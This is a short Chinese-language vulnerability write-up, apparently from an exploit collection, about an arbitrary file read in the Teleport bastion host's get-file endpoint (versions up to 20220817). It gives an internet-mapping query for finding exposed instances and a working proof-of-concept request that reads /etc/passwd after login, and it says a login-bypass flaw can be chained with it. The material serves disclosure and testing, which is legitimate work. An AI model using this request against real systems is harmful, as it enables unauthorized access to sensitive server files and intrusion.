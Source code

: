 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

Teleport Version <= 20220817

## 网络测绘

app="TELEPORT堡垒机"

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76.png)

登录后使用POC验证

```php
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661232312843-695b528d-23f9-4b57-b925-182f79977734.png)